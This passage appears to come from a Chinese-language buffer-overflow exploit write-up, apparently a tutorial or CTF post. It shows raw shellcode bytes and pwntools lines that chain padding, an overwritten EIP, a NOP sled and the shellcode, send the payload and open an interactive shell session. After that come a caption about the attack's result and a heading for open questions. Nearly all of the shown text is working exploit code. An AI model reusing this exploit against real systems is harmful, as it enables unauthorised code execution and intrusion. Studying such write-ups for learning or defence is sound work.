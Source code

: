 ```bash
"\x11\x9f\x85\x46\x2d\xff\x65\x36\x8b\x74\x8b\x23\xa6\xd7\xc4"
"\x80\x8b\xe7\x14\x8f\x9c\x94\x26\x10\x37\x32\x0b\xd9\x91\xc5"
"\x6c\xf0\x66\x59\x93\xfb\x96\x70\x50\xaf\xc6\xea\x71\xd0\x8c"
"\xea\x7e\x05\x38\xe2\xd9\xf6\x5f\x0f\x99\xa6\xdf\xbf\x72\xad"
"\xef\xe0\x63\xce\x25\x89\x0c\x33\xc6\xa4\x90\xba\x20\xac\x38"
"\xeb\xfb\x58\xfb\xc8\x33\xff\x04\x3b\x6c\x97\x4d\x2d\xab\x98"
"\x4d\x7b\x9b\x0e\xc6\x68\x1f\x2f\xd9\xa4\x37\x38\x4e\x32\xd6"
"\x0b\xee\x43\xf3\xfb\x93\xd6\x98\xfb\xda\xca\x36\xac\x8b\x3d"
"\x4f\x38\x26\x67\xf9\x5e\xbb\xf1\xc2\xda\x60\xc2\xcd\xe3\xe5"
"\x7e\xea\xf3\x33\x7e\xb6\xa7\xeb\x29\x60\x11\x4a\x80\xc2\xcb"
"\x04\x7f\x8d\x9b\xd1\xb3\x0e\xdd\xdd\x99\xf8\x01\x6f\x74\xbd"
"\x3e\x40\x10\x49\x47\xbc\x80\xb6\x92\x04\xb0\xfc\xbe\x2d\x59"
"\x59\x2b\x6c\x04\x5a\x86\xb3\x31\xd9\x22\x4c\xc6\xc1\x47\x49"
"\x82\x45\xb4\x23\x9b\x23\xba\x90\x9c\x61")
last=payload+eip+sled+shellcode
p.sendline(last)
p.interactive()
```

攻击效果如图：

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f244a500-0ae1-45ec-94d2-38d0ab05b287/Untitled.png

## 0x06 疑问